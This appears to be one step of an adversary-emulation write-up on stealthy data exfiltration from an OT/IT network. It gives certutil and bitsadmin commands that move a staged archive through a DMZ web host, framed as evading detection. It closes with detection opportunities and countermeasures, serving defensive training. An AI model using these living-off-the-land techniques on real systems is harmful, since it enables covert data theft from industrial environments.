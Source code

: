 # Step 8: Exfiltration

**Objective**:  
Stealthily exfiltrate sensitive data from the environment using native Windows binaries over existing tunnels to avoid detection.

---

## Context

- Target environment includes OT and IT subnets with strict monitoring.
- Target files already compressed with makecab and staged on OT host
- Data exfiltration occurs via web services accessible through a DMZ webserver (`dmz-web-elcoop-01`) and the ENG subnet.
- Leverage LOLBAS (Living Off the Land Binaries and Scripts) tools such as `certutil` and `bitsadmin` to blend with legitimate activity.

---

## Execution

### 1. Exfiltrate Data Using Native Tools  
Use built-in Windows utilities to transfer data out via the established tunnel:

- **Certutil**  
  Upload or download files by encoding or decoding content through HTTPS or HTTP channels stealthily.
  
```
certutil -urlcache -split -f "http://dmz-web-elcoop-01/archive.cab" C:\Users\Public\archive.cab

```
  
- **Bitsadmin**  
  Initiate a background intelligent transfer job to download or upload files over HTTP/HTTPS, minimizing network noise.

Example command to download an exfiltration archive:
```
bitsadmin /transfer job /download http://dmz-web-elcoop-01/archive.cab C:\Users\Public\archive.cab
```

---

## Result

- Data is successfully transmitted out of the environment with minimal network footprint

- Processes appear as normal system activity using signed Windows binaries

- Exfiltration avoids triggering common alerts focused on unknown or third-party tools

---

## Detection Opportunities

| **Event**                          | **Description**                                                                                 |
|-----------------------------------|------------------------------------------------------------------------------------------------|
| Unusual `certutil.exe` activity   | Detect certutil downloading or uploading files from/to suspicious external URLs.               |
| Suspicious `bitsadmin.exe` usage  | Monitor bitsadmin jobs transferring data to uncommon or unexpected HTTP/HTTPS destinations.    |
| Outbound data spikes              | Identify abnormal outbound data volumes from OT/IT subnets, indicating potential exfiltration. |
| Process and network correlation   | Alerts when LOLBAS tools are executed alongside network connections to external, suspicious hosts. |
| Network anomaly detection (NDR)   | Detect deviations in protocol use, data size, or destination reputation indicative of data theft. |
| Data Loss Prevention (DLP) alerts | Trigger on unauthorized sensitive data leaving the environment via web protocols or tunnels.    |

---

## Defensive Countermeasures
- Restrict and monitor usage of high-risk LOLBAS tools (certutil, bitsadmin) especially on sensitive hosts
- Employ application whitelisting to prevent unauthorized execution of binaries used in exfiltration
- Implement comprehensive network monitoring for anomalies in protocol usage, data volume, and destination reputation
